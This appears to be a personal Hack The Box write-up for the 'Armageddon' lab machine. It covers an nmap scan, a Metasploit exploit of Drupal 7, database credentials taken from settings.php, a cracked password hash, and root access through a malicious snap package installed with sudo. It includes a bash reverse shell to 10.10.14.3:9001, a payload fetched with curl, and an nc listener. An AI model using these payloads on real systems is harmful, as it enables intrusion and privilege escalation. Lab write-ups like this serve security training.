

# nmap
<pre>
# Nmap 7.91 scan initiated Sun Jun  6 09:29:41 2021 as: nmap -sC -sV -A -p- -vv --open -oA nmap/10.10.10.233-Armageddon 10.10.10.233
Nmap scan report for armageddon.htb (10.10.10.233)
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-06-06 09:29:41 SAST for 95s
Not shown: 65115 closed ports, 418 filtered ports
Reason: 65115 conn-refused and 418 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON  VERSION
<span style="background-color:yellow; color:000;font-weight:bold"> 22/tcp open  ssh</span>     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDC2xdFP3J4cpINVArODYtbhv+uQNECQHDkzTeWL+4aLgKcJuIoA8dQdVuP2UaLUJ0XtbyuabPEBzJl3IHg3vztFZ8UEcS94KuWP09ghv6fhc7JbFYONVJTYLiEPD8nrS/V2EPEQJ2ubNXcZAR76X9SZqt11JTyQH/s6tPH+m3m/84NUU8PNb/dyhrFpCUmZzzJQ1zCDStLXJnCAOE7EfW2wNm1CBPCXn1wNvO3SKwokCm4GoMKHSM9rNb9FjGLIY0nq+8mt7RTJZ+WLdHsje3AkBk1yooGFF+0TdOj42YK2OtAKDQBWnBm1nqLQsmm/Va9T2bPYLLK5aUd4/578u7h
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4kP4gQ5Th3eu3vz/kPWwlUCm+6BSM6M3Y43IuYVo3ppmJG+wKiabo/gVYLOwzG7js497Vr7eGIgsjUtbIGUrY=
|   256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG9ZlC3EA13xZbzvvdjZRWhnu9clFOUe7irG8kT0oR4A
<span style="background-color:yellow; color:000;font-weight:bold"> 80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)</span>
|_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
|_<span style="background-color:yellow; color:000;font-weight:bold">http-generator: <span style="background-color:red; color:fff;font-weight:bold">Drupal 7</span> (http://drupal.org)</span>
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  6 09:31:16 2021 -- 1 IP address (1 host up) scanned in 95.15 seconds
</pre>
- drupal site version 7, possible vulnerable version as drupal is teasing version 9 at this time

# web page




- site is a built on drupal
- theme consistent with drupal theme
- file and folder structure from robots.txt consistent with drupal site
- drupal confirmed on [[HTB-Live/10.10.10.233-armageddon/10 - nmap]] nmap

# user


- searchsploit suggests a specific Metasploit exploit


- Metasploit establishes a session


- Stabilizing shell <span style="background-color:red;color:fff;font-weight:bold;">fails</span>


````php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'CQHEy@9M*m23gBVj',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
````
- enumeration drupal site database connection settings reveals database credentials


- credentials were use to retrieve a hash
````
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
````


````bash
john thehash --show
?:booboo

1 password hash cracked, 0 left
````

- the password matching the hash was in the wordilst *rockyou.txt* (````booboo````)


- The only account on the machine that has access to an interactive shell is ``brucetherealadmin``


- credendtials ````brucetherealadmin:booboo```` are able to login

# root


- brucetherealadmin can run the following command as root
````bash
/usr/bin/span install *
````


```bash
COMMAND=id
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

```
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

- all that is needed is for a means to run a command within the context of the above command (as root). GTFObins has the required remedy. 
- what is required is to embed a command with the FPM package manager then we can run a shell command as root.


- first the package manager FPM needs to be installed

````bash
echo 'bash -i >& /dev/tcp/10.10.14.3/9001' 0>&1 > callhome.sh
chmod +x callhome.sh
````

- create the callhome.sh script on victim machine as above

````bash
COMMAND='bash -c /home/brucetherealadmin/callhome.sh'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
````

- on the attacking machine (Kali Box), prepare the payload by copying and pasting the script as above.

````bash
sudo python3 -m http.server 80
````

- from the temp folder where the payload is generated, run the python web server as above; so that the payload may be downloaded to the victim machine.

````bash
curl http://10.10.14.3/xxxx_1.0_all.snap --output sxxxx_1.0_all.snap
````

- since there isn't wget on the victim machine, use curl to download the payload as shown above.

````bash
nc -nvlp 9001
````

- run the listener as above

````bash
sudo /usr/bin/snap install sxxxx_1.0_all.snap --dangerous --devmode
````

- finaly run the snap command to load the payload as above
- or watch the animated gif below


